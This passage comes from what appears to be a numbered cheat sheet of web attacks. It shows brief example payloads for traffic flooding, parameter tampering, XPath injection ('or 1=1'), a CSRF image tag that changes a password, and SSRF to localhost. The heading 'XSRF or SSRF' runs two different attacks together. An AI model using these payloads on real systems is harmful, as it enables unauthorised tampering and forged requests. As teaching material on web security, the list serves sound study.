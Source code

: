 #### 55. Traffic Flood
```plaintext
GET / HTTP/1.1
Host: example.com
(repeated many times)
```

#### 56. Web Parameter Tampering
```http
http://example.com/index.php?price=10&discount=90
```

#### 57. XPath Injection
```xml
http://example.com/index.php?query=' or 1=1 or 'a'='a
```

#### 58. XSRF or SSRF
```html
<img src="http://example.com/change-password?password=newpassword">
http://example.com/?url=http://localhost:8080
```
